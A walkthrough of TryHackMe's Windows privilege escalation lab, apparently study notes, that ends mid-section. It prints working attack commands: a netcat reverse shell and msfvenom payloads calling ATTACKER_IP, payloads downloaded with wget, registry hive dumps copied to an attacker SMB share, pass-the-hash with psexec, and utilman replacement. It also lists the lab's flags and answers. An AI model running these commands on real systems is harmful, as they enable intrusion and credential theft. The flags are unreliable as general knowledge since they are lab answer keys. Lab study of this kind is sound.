# [Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)

## Windows Privilege Escalation

While we will usually want to have administrative rights, there might be situations where we'll need to escalate into other unprivileged accounts before actually getting administrative privileges.

Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

### Windows Users

Depending on their access levels, we can categorise a user in one of the following groups:
- **Administrators** 
	- These users have the most privileges. They can change any system configuration parameter and access any file in the system.
- **Standard Users**
	- These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.

Any user with administrative privileges will be part of the **Administrators** group. On the other hand, standard users are part of the **Users** group.

 Special built-in accounts used by the operating system in the context of privilege escalation:

| **SYSTEM / LocalSystem** | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| ------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Local Service**        | Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.                                                             |
| **Network Service**      | Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.                                       |

These accounts are created and managed by Windows, and you won't be able to use them as other regular accounts. Still, in some situations, you may gain their privileges due to exploiting specific services.

### Questions

Q: Users that can change system configurations are part of which group?

A: `Administrators`

Q: The SYSTEM account has more privileges than the Administrator user (aye/nay)

A: `aye`

## Harvesting Passwords from Usual Spots

The easiest way to gain access to another user is to gather credentials from a compromised machine. Such credentials could exist for many reasons, including a careless user leaving them around in plaintext files; or even stored by some software like browsers or email clients.

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`

As part of these files, you might encounter credentials:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a `cmd.exe` prompt:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

### Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```ps
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Questions

Q: A password for the julia.jones user has been left on the Powershell history. What is the password?



A: `ZuperCkretPa5z`

Q: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?



A: `098n0x35skjD3`

Q: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

We list the saved credentials:



We then use `runas` for the user `mike.katz` to spawn a shell:

```ps
runas /savecred /user:mike.katz cmd.exe
```



A: `THM{WHAT_IS_MY_PASSWORD} `

Q: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?



A: `CoolPass2021`

## Other Quick Wins

### Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```ps
schtasks /query /tn vulntask /fo list /v
```

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:

```ps
icacls c:\tasks\schtask.bat
```

If the **BUILTIN\Users** group has full access (F) over the task's binary, we can then modify the .bat file and insert any payload we like.

We can then spawn a reverse shell:

```ps
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1337 > C:\tasks\schtask.bat
```

And start a listener on our machine:

```bash
nc -lnvp 1337
```

While we probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, if we have enough permissions, we can start the task manually with the following command:

```ps
schtasks /run /tn vulntask
```

### AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.

```ps
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If these are set, you can generate a malicious .msi file using `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```ps
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Questions

We list the scheduled tasks:



We notice a task that runs `schtask.bat` by the user `taskusr1`. 

We check if the current user has enough permissions to modify the executable:



We do. We open a listener on our machine using `nc -lnvp 1337` and connect to it using the `nc` executable found on the desktop of the target machine. Note that we also have to manually run the task:

```ps
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 1337 > C:\tasks\schtask.bat
schtasks /run /tn vulntask
```



We navigate to the desktop and print the flag:



Q: What is the taskusr1 flag?

A: `THM{TASK_COMPLETED}`

## Abusing Service Misconfigurations

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:



Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:



A subkey exists for every service in the system. Again, we can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. As you have guessed by now, only administrators can modify such registry entries by default.

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:



We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:



And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server
```

We can then pull the payload from Powershell with the following command:

```bash
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:



We then start a listener on port 4445 on our machine.

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, in this case, we can restart the service ourselves in `cmd.exe`:

```cmd
sc stop windowsscheduler 
sc start windowsscheduler
```

### Unquoted Service Paths

When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by `"C:\Program Files\RealVNC\VNC Server\vncserver.exe"`, followed by the given parameters:



Now let's look at another service without proper quotation:



When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:



This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute `C:\\MyPrograms\\Disk.exe` and take the rest as arguments.

Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `c:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`:



The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before.

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

```cmd
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

Once the service gets restarted, your payload should execute:

```cmd
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```

### Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk(opens in new tab)](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

Command to check for the thmservice service DACL:

```
accesschk64.exe -qlc thmservice
```



Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, we build another exe-service reverse shell and start a listener for it.

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`.
Remember to grant permissions to Everyone to execute your payload:

```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

```
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```
sc stop THMService
sc start THMService
```

### Questions

Q: Get the flag on svcusr1's desktop.

We follow precisely the instructions from above.



A: `THM{AT_YOUR_SERVICE}`

Q: Get the flag on svcusr2's desktop.

We again follow the notes from above to get the flag:

A: `THM{QUOTES_EVERYWHERE}`

Q: Get the flag on the Administrator's desktop.

A: `THM{INSECURE_SVC_CONFIG}`

## Abusing dangerous privileges

### Windows Privileges

Each user has a set of assigned privileges that can be checked with:

```
whoami /priv
```

A complete list of available privileges on Windows systems is available [here(opens in new tab)](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin(opens in new tab)](https://github.com/gtworek/Priv2Admin) Github project.

### SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

We will need to login as a user which is part of the "Backup Operators" group, that by default is granted the SeBackup and SeRestore privileges. We need to open a command prompt using the "Open as administrator" option to use these privileges.

To backup the SAM and SYSTEM hashes, we can use the following commands:

```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's `smbserver.py` to start a simple SMB server with a network share in the current directory of our attacking machine:

```bash
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our attacking machine:

```cmd
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

And use impacket to retrieve the users' password hashes:


```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```bash
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.130.171.47
```

### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option.

We check our privileges:



We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:



Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.

To replace utilman, we will start by taking ownership of it with the following command:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:

```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

After this, we will replace utilman.exe with a copy of cmd.exe:

```
copy cmd.exe utilman.exe
```

To trigger utilman, we will lock our screen from the start button:



And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges.

### SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.

Let's assume we have an FTP service running with user `ftp`. Without impersonation, if user Ann logs into the FTP server and tries to access her files, the FTP service would try to access them with its access token rather than Ann's:



There are several reasons why using ftp's token is not the best idea: 

- For the files to be served correctly, they would need to be accessible to the `ftp` user. In the example above, the FTP service would be able to access Ann's files, but not Bill's files, as the DACL in Bill's files doesn't allow user `ftp`. This adds complexity as we must manually configure specific permissions for each served file/directory. 
- For the operating system, all files are accessed by user `ftp`, independent of which user is currently logged in to the FTP service. This makes it impossible to delegate the authorisation to the operating system; therefore, the FTP service must implement it. 
- If the FTP service were compromised at some point, the attacker would immediately gain access to all of the folders to which the `ftp` user has access.

If, on the other hand, the FTP service's user has the SeImpersonate or SeAssignPrimaryToken privilege, all of this is simplified a bit, as the FTP service can temporarily grab the access token of the user logging in and use it to perform any task on their behalf:

